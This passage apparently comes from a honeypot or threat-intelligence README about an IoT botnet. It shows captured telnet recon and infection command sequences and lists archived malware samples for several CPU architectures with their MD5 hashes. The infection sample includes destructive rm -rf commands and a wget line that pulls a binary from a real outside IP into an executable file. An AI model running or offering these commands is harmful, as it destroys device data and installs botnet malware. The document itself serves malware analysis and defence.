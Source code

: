 ### Recon phase (sample)
```
enable
shell
sh
/bin/busybox ZORRO
/bin/busybox wget
cat /proc/mounts && /bin/busybox ZORRO
/bin/busybox cat /bin/sh
```

### Infection phase (sample)
```
enable
shell
sh
/bin/busybox rm -rf /var/run/* /dev/* /tmp/* /var/run/* >/dev/null 2>&1; /bin/busybox WOPBOT
/bin/busybox mkdir -p /var/run; /bin/busybox WOPBOT
/bin/busybox cp -f /bin/sh /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox echo -ne '' > /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox chmod 777 /var/run/oMNUckLhyt; /bin/busybox WOPBOT
/bin/busybox wget -O - http://85.118.98.197:61050/cyka/blyat/2.mp > /var/run/oMNUckLhyt && /bin/busybox WOPBOT
```

### Captured samples
* [1.mp](samples/1.mp.7z) (ELF 32-bit, MIPS-I, MD5: eab8da47ff36cafd2662fd01b6959389)
* [2.mp](samples/2.mp.7z) (ELF 64-bit, MIPS-I, MD5: 4565f96cd8498a7e15ffa99e0d435d11)
* [.arm](samples/arm.7z) (ELF 32-bit, ARM, MD5: 8a7e32db13844f2d441340befd8dd8e9)
* [.m68k](samples/m68k.7z) (ELF 32-bit, Motorola 68020, MD5: 67c99761fac4c12e06fcf17fa1598360)
* [.mp](samples/mp.7z) (ELF 32-bit, MIPS-I, MD5: bdcee10dddb257baf6a84dd952f4c0dc)
* [.mps](samples/mps.7z) (ELF 32-bit, MIPS-I, MD5: 35e9948748c60f17f1f404e1debbb505)
* [.ppc](samples/ppc.7z) (ELF 32-bit, PowerPC, MD5: ad8c6e3fd1421a70a4df46117fa5da8b)
* [.sh4](samples/sh4.7z) (ELF 32-bit, Renesas SH, MD5: d82b630bc07d146f54f18861a0370243)
* [.sparc](samples/sparc.7z) (ELF 32-bit, SPARC, MD5: a14141949361398a8d9662b90168adeb)
